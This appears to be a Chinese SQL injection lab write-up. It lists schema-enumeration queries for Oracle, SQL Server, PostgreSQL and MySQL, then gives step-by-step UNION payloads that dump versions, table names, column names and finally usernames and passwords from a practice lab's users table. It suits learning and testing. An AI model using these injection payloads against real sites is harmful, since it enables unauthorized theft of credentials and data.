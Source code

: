 ### 数据库内容枚举

列出数据库中的表和表结构信息：

```plaintext
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = '表名'

Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '表名'

PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE tablcon_name = '表名'

MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '表名'
```

由上述可以看到获取数据库内容信息 Microsoft、PostgreSQL、MySQL 都是一样的，只有 Oracle 不一样。

### Microsoft、PostgreSQL、MySQL 枚举数据库信息流程

##### information_schema数据库

- tables表
  - table_schema：目标数据库
  - table_name：目标表名称
- columns表
  - table_schema：目标数据库
  - table_name：目标表
  - column_name：目标字段

1. 爆数据库名。

```
union select database()
```

2. 爆表。

```
union select group_concat(table_name) from information_schema.tables where table_schema='数据库名'
```

3. 爆字段。

```
union select group_concat(column_name) from information_schema.columns where table_name='表名'
```

4. 爆数据。

```
union select group_concat(username,":",password) from '表名'
```

### Microsoft、PostgreSQL、MySQL 实验

```
Accessories' union select '123','123'--+
```

![image-20250520165110082](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520165110082.png)

```
# 报数据库
Accessories' union select version(),'123'--+
```

![image-20250520165332156](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520165332156.png)

```
# 爆数据库名
Accessories' union select current_database(),'123'--+

# 在这个环境下有些多余，因为用户信息不存放在 academy_labs 数据库。
```

![image-20250520165532305](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520165532305.png)

```
# 爆表
Accessories' union select table_schema,table_name from information_schema.tables --+
```

![image-20250520171133140](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520171133140.png)

```
# 爆字段
Accessories' union select table_name,column_name from information_schema.columns where table_name='users_gfvogv' --+

email username_ljvrsv password_vbecda
```

![image-20250520171301029](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520171301029.png)

```
# 爆数据
Accessories' union select username_ljvrsv,password_vbecda from users_gfvogv --+
```

![image-20250520171400752](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520171400752.png)

### Oracle 枚举数据库信息流程

```
# 版本
Accessories' union select banner,null from v$version--+
```

![image-20250520172141259](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520172141259.png)

```
# 爆表
Accessories' union select table_name,null from all_tables--+
```

![image-20250520172721451](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520172721451.png)

```
# 爆字段
Accessories' union select column_name,null from all_tab_columns WHERE table_name = 'USERS_GRLDXG'--+

PASSWORD_MZYZOY USERNAME_EYBDGX
```

![image-20250520172807602](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520172807602.png)

```
# 爆数据
Accessories' union select USERNAME_EYBDGX,PASSWORD_MZYZOY from USERS_GRLDXG --+
```

![image-20250520172913742](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250520172913742.png)